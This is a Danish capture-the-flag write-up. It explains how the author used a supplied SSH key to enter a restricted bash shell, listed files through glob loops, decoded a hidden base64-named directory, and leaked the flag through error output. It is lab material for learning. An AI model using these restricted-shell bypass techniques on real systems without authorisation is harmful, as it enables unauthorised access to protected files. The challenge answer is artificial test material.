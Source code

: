 # Opgave

FDCA Special Ops har, siden vores første kontakt med Asgård, haft gang i en operation med at kortlægge Jættenettet. I går lykkedes det dem at identificere noget, der ligner en tankeboks fra Loke.

De har fået opsnappet en fil som ser ud til at give adgang.
Men da de allerede er fuldt optaget af deres nuværende operationer, håber vi at du kan finde noget interessant i tankeboksen.

jættenettet.dk:2222 

Vedhæftet fil: **loki.priv**

---

# Løsning

Jeg prøvede at ssh til port 2222 på jættenettet.dk med kommando: `ssh -i loki.priv -p 2222 loki@jættenettet.dk`, men det virkede ikke på grund af æ'et i jættenettet.

Jeg prøvede derfor i stedet at pinge domænet og fik en ip **20.240.212.83**, som jeg kunne bruge til at ssh.

Her får man at bash shell, som er meget restriktivt og der er ingen af de sædvanlige kommandoer, som **ls, pwd, cat, cd** som virker.

Jeg forsøgte at finde nogle filer at arbejde med ved at lave et hurtigt script: `for file in \*;do $file;done;` \* er et wildcard som finder alle filer.

Her får jeg outputtet:

```
archive: Is a directory \n
bin: Is a directory
considerations.md: Permission denied
credit.md: Permission denied
etc: Is a directory
lib: Is a directory
lib64: Is a directory
vault: Is a directory
```

Her ser især vault og bin interessante ud, da vault så vidt jeg ved ikke er et normalt directory og bin kan have nogle filer vi kan køre.

Jeg kører samme kommando som før men for hvert directory nu og finder disse filer:
```
/archive/security.md: 
/bin/bash: 
/etc/bash.bashrc
/etc/profile
/lib/x86_64-linux-gnu/libtinfo.so.6
/lib/x86_64-linux-gnu/libc.so.6
/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
/lib64/ld-linux-x86-64.so.2
/vault/flag.txt
```

Her var jeg stuck i rigtig mange timer fordi der var ingen af disse filer som ville spille sammen. alle filer bortset fra de 3 filer 
**/lib/x86_64-linux-gnu/libc.so.6**, **/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2**, **/lib64/ld-linux-x86-64.so.2**, havde jeg ikke permissions til at kunne køre. Jeg vidste at jeg skulle på en eller anden måde finde ud af hvad der stod i **/vault/flag.txt**, men havde ingen ide om hvordan.

Jeg prøvede at køre alle filler gennem **ld-linux-x86-64.so.2**, som er en dynamic linker/loader, der bruges af andre programmer til at køre libraries. I dette tilfælde kan jeg prøve at bruge den til at prøve at køre alle filer på computeren, men intet giver mig et meningsfyldt resultat.

Efter mange timer kommer jeg til at tænke på at det egentlig var mærkeligt at mit script til at finde filer ikke havde fundet den public key der er nødvendig for at jeg kunne ssh med **loki.priv**.

Jeg finder så ud af at \* ikke medtager hidden directories, som starter med . og jeg kører derfor en opdateret kommando: `for file in /.\*;do $file;done;`, hvor jeg får dette output:

```
/.bashrc: Permission denied
/.c2VjcmV0Ymlu: Is a directory
/.ssh: Is a directory
```

**.c2VjcmV0Ymlu** er base64 encoded og decodes til **.secretbin**, som nok har hemmeligheden til at finde flaget.

Da jeg ikke ved hvilke filer der ligger i directory prøver jeg bare at køre dem alle sammen med flaget som input med scriptet: `bash$ for file in /.c2VjcmV0Ymlu/*; do $file /vault/flag.txt; done`

Fra dette får jeg outputtet:

```
/vault/flag.txt: line 1: .: filename argument required
.: usage: . filename [arguments]
/vault/flag.txt: line 2: .: filename argument required
.: usage: . filename [arguments]
/vault/flag.txt: line 3: .: filename argument required
.: usage: . filename [arguments]
/vault/flag.txt: line 4: .: filename argument required
.: usage: . filename [arguments]
/vault/flag.txt: line 5: .: filename argument required
.: usage: . filename [arguments]
/vault/flag.txt: line 6: FDCA{Ba5h_Liter4te_y0u_ar3}: No such file or directory
/vault/flag.txt: line 7: .: filename argument required
.: usage: . filename [arguments]
/vault/flag.txt: line 8: .: filename argument required
.: usage: . filename [arguments]
/vault/flag.txt: line 9: .: filename argument required
.: usage: . filename [arguments]
/vault/flag.txt: line 10: .: filename argument required
.: usage: . filename [arguments]
/vault/flag.txt: line 11: .: filename argument required
.: usage: . filename [arguments]
```

og her ser vi at flaget for dagen er **FDCA{Ba5h_Liter4te_y0u_ar3}**

---
